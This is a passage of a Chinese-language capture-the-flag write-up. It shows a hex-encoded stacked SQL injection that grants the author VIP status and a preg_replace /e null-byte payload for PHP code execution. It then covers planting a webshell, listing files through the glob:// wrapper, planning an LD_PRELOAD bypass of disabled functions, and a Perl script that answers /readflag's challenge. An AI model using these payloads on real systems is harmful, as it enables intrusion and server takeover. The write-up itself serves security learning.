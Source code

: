 ```
update users set isvip=1 where username='ch4ser'

';set @a=0x757064617465207573657273207365742069737669703d3120776865726520757365726e616d653d2763683473657227;prepare kk from @a;execute kk;'
```

![image-20200130164043550](image-20200130164043550.png)

这样我就是vip了, 可以使用replace功能了, 这个在源码中其实就是``preg_replace``.

```php
$content = addslashes(preg_replace("/" . $_POST['find'] . "/", $_POST['replace'], $row['content']));
```

传入参数

```
find=/e%00
replace=phpinfo();
```

就执行成功了, 写一个shell进去先. 然后发现system类函数都被禁用了, 而且还有basedir限制, 在``init_set``被禁止的情况下, 可以使用``glob``协议

```php
if ($dh = opendir("glob:///*")) {while (($file = readdir($dh)) !== false) {echo "$file\n";}closedir($dh);}
```

发现根目录有``/readflag``和``/flag``, 接下来使用``LD_PRELOAD``来绕过``disable_function``的限制, 在``disable_function``中看到``mail``函数都被禁用了, 而且没有安装``imagemagick`` , 可以考虑使用``error_log``来触发, 问题是这题目在buuoj经过了魔改, /readflag不会直接给出flag而是给出了一道计算题, 回答正确之后才会给出flag, 寻找一个perl脚本来执行, 这是*ctf的一道题目的perl脚本

```perl
use strict;
use IPC::Open3;

my $pid = open3( \*CHLD_IN, \*CHLD_OUT, \*CHLD_ERR, '/readflag' )
  or die "open3() failed $!";

my $r;
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = eval "$r";
print "$r\n";
print CHLD_IN "$r\n";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
$r = <CHLD_OUT>;
print "$r";
```
